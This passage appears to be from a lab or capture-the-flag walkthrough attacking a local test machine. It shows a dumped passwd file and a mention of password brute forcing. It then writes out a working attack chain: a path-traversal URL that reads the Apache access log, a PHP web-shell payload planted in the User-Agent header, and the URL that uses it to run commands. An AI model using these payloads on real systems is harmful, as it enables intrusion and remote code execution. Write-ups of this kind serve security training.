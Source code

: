 ```bash
119:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin hplip:
x:109:7:HPLIP system user,,,:/var/run/hplip:/bin/false systemd-coredump:x:999:
999:systemd Core Dumper:/:/usr/sbin/nologin sshd:x:110:65534::/run/sshd:/usr/
sbin/nologin mysql:x:111:120:MySQL Server,,,:/nonexistent:/bin/false miguel:x:
1000:1000:,,,:/home/miguel:/bin/bash uuidd:x:112:121::/run/uuidd:/usr/sbin/
nologin smmta:x:113:122:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/
nologin smmsp:x:114:123:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/
nologin Debian-exim:x:115:124::/var/spool/exim4:/usr/sbin/nologin
```

This discloses a user in home directory: miguel

I tried brute forcing this user's password for ssh and ftp. No go.

Here is location of apche log:
```bash
http://192.168.238.72:8593/index.php?book=../../../../../../../var/log/apache2/access.log
```

The next step is to proceed with Apache log poisoning. The service on port 80 is the one that I need to query with a malicious 'User Agent' header when I request to get `index.php`. This will then be reflected in the log file via the service on port 8593.

Note: I was fuzzing the web endpoints a lot, so the logs were full. I reverted the machine and it was a lot easier to work with.

I poisoned the User agent with this:
`User-Agent: lemmy: <?php system($_GET['c']); ?>`

![1](screenshots/1.png)

This gets me code execution when I query `http://192.168.238.72:8593/index.php?book=../../../../../../../var/log/apache2/access.log&c=id`
